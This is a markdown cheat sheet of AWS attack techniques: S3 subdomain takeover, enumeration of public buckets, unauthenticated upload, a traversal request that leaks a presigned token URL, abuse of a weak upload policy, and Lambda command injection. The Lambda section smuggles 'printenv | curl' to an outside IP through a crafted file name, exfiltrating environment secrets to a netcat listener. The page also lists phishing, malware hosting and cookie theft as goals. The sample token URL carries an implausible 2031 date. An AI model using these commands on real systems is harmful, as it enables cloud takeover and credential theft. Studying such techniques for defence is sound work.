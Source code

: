 # AWS

## S3 Buckets

### Subdomain Takeover

> Take control of a domain that was previously associated with a deprovisoned AWS resource is also known as a Subdomain Takover vulnerability 

##### Crear bucket

* aws s3 mb s3://example.domain.com
* aws s3api create-bucket --bucket example.domain.com --region eu-west-2 --create-bucket-configuration LocationConstraint=eu-west-2

##### Eliminar bucket

* aws s3 rb s3://example.domain.com --force

##### Configure bucket

* aws s3api put-bucket-policy --bucket example.domain.com --policy file://policy.json

##### Upload to bucket

* aws s3 sync ./static/ s3://example.domain.com
* aws s3 cp poc.html s3://example.domain.com

##### Enable public access

* aws s3 website s3://assets.cloudbilling.net/ --index-document index.html --error-document index.html

#### Gravity

* Hosting Phishing websites
* Hosting Malware
* Bypassing CSP policies
* Stealing Cookie's
* Man-in-the-browser attacks

## Public Read Bucket

A bucket is considered **public** if any user can list the contents of the S3 bucket, and **private** if the bucket's contents can only be listed or written by certain S3 users.

#### Tool

```bash
user@DESKTOP-6F28SID:~$ pip install s3recon
user@DESKTOP-6F28SID:~$ s3recon "word-list.txt" -o "results.json" --public
- PRIVATE https://s3.us-west-2.amazonaws.com/roblox-test
- PRIVATE https://s3.us-west-2.amazonaws.com/roblox
- PUBLIC https://s3.us-west-2.amazonaws.com/example-test
```

#### Manual
```bash
user@DESKTOP-6F28SID:~$ aws s3 ls s3://domain --no-sign-request
An error occurred (NoSuchBucket) when calling the ListObjectsV2 operation: The specified bucket does not exist
```

## Public Upload Bucket

#### Manual
```bash
user@DESKTOP-6F28SID:~$ aws s3 cp poc.html s3://domain --no-sign-request
load to s3://
```

## S3 Directory traversal

```http
GET /get-image/ HTTP/1.1
HOST: example-domain.eu-west-2.amazonaws.com

{"image": "../../"}

Response

{
https://example-domain.s3.eu-west-2.amazonaws.com/?X-Amz-Security-Token=dIQodJb3JpZad2X2VjEG4aCWV1LXdlc3QtMiJGMEQCIA%2FPVoPn7hBH9Y65nGfvbqRDlh9gw21MMSzwoZlPiA9qAiA9WRCjo3v0lMDfREssIMDz4k6RnAHuKLrVHt9r32HZlyrlAQim%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAMaDDM5MjsYxNTkwMTQyMiIMrXDPzyr7Q%2F7YAQaOKrkBFVlm5VPjyJQ6V9BalmtLIgCWYtbzsRv%2FlMdYU5jzqq9CZjnkzNk9gXHP%2FwtMafwerFnMBn1E%2Fz6hK9YCJacm8SESCtB%2BCSM8dshzGF8mGyMb1vxd9gxE7RikQT4zSIFLnbTNlXCOTEU6757fiSnIsCH%2B7hC1WcnlQRshH%2FULuM7DsPYhnedxeSaqmTk0Uwi%fas2asdVf2RNHePMFQtCDb0L5svPwjLGmbfHWeWjL0vdhSurGO4wq7DiggY64QG96vZcj6GUBVVjRXftMu7wjDH4DKEUpO%2BPuPEpzbVPCX1nDgEddMe%2B5YSNZvYLJIwvNMld00JtZ1FJZgGrOd0dAe%2FfC%2Ba4g3%2BGlieZA6%2BbLZ3UJ6GGlhJluO4LLczel4x4IeUhxnB7znJmkTCccul2PwkowHjABzSMcFd62yEirnWQVDogKlXNsjZllMoEKuGsLWb1D8uDoeuSVE89b06hSaBoNA%2Fzyu1kigVAGxstnW0Z8PD5FjmbfGnWMmaQEkIodyM1JS0uS8COK%2BInUlfFi2wTsyiMOXMqiqse90PhaPPM%3D&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Date=20310322T134547Z&X-Amz-SignedHeaders=host&X-Amz-Expires=900&X-Amz-Credential=ASIAVW2N3HDXM37QBLWS%2F210210322%2Feu-west-2%2Fs3%2Faws4_request&X-Amz-Signature=9a2849e891b0f2cr4155e5c381f71ac047977edb85a997ccbf85d04c34b0a6277
}
```

## Weak S3 POST Upload Policy

The page has upload drivers via S3 bucket, also you can upload a file and replace the drivers file. 

However, Bob notices a misconfiguration with this policy attribute. The attribute should be defined with the following syntax:

["starts-with", "$key", "user/user1/"]

Since the key property is set to empty "", Bob can upload to any directory location in the S3 bucket by specifying an arbitrary key path in the POST request!

Content-Disposition: form-data; name="key"

downloads/drivers/launcher-bin-v3.2.0.296.dmg

## Lambda Command Injection

```bash
user@DESKTOP-6F28SID:~$ nc -l -p 80

user@DESKTOP-6F28SID:~$ touch "xxx; printenv | curl 54.151.161.121 --data-urlencode @-; #.pdf"
```

## Reference:
https://application.security/free/kontra-aws-clould-top-10
